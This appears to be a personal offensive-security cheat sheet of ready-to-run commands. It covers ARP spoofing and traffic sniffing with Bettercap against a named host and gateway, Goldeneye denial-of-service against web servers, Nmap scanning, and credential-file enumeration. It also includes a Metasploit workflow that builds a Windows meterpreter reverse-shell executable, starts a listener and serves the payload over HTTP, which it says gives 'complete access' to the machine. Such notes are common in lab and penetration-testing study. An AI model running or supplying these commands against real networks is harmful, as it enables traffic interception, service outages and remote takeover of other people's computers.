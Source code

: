 # Cheat Sheet

## Bettercap

Spoofing, sniffing...

```bash

net.probe on
Net.recon on


echo 1 > /proc/sys/net/ipv4/ip_forward
echo 0 > /proc/sys/net/ipv4/conf/all/send_redirection

bettercap -eval "set arp.spoof.targets 192.168.0.108 192.168.0.1; set arp.spoof.fullduplex true; set arp.spoof.interval 10; arp.spoof on; net.sniff on"

```

Only works for http, not https.

--- 

## Goldeneye

DoS attacks.

```bash
goldeneye <target> # tagrgets web servers like http://127.0.0.1:8080
```

---

## Nmap

```bash
nmap -T 5 <ip_addr> -p 80
```

**-T**: scanning speed. 0 very slow, 5 very fast...
**-p**: specific port only, separate with ","
**-v**: verbose
**-d**: raise debug level
**-iL**: supply text file with ip addresses
**-oN**: add to output file
**-sP**: check if alive
**-F**: top 100 ports
**--top-ports**: top n ports
**--script vuln***: scans for all vulns with scripts

```bash
nmap -sV -p- 10.10.10.10
```

`-p-` scans all ports
`-sV` attempts to detect service version

```bash
nmap -A -p- 10.10.10.10
```

`-A` aggressive scan that includes os detection, version detection, script scanning, and traceroute on all ports.

---
## Metasploit

```bash
msfconsole
```

```bash
msfvenom -p <payload> LHOST=<your_ip> LPORT=<your_port> -f <format> -o <filename>
```

`msfvenom` tool used to generate payloads.

-p used to specify type of payload. (ie reverse shell)
-f format of the file (exe, elf, raw)


```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<myip> LPORT=4444 -f exe -o payload.exe
```

generates the payload.

```bash
use multi/handler # inside metasploit console
set payload windows/meterpreter/reverse_tcp
show options

```

with no antivirus for windows.

create tmp website
```
python -m http.server 8080
```

You have to get the payload and run it on windows. Now you have complete access to the windows machine.

---
## Enumeration

```bash
hostname
uname -a
ps aux
sudo -l
cat /etc/passwd | cut -d ":" -f 1
```

---
